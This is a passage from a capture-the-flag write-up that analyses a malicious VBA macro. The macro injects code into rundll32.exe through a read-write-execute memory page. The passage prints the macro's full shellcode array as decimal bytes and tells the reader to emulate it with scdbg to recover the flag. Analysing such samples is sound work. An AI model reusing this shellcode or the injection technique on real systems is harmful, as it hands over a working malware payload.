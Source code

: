 In the provided VBA code, `rwxpage` is a variable used to store the address of the memory page that will be allocated in the target process (`rundll32.exe`) using the `AllocStuff` function. The name `rwxpage` appears to suggest that the memory page will be set with read, write, and execute permissions.

The data in the `myArray` is a set of integer values that have been encoded as decimal numbers using a simple encoding technique.

```vba
myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
```

Write it to a file and run it by using scdbg => flag

That’s it! Now you can do this by yourself and get the victory flag. Thank you for taking time reading this. See you soon in the next post!
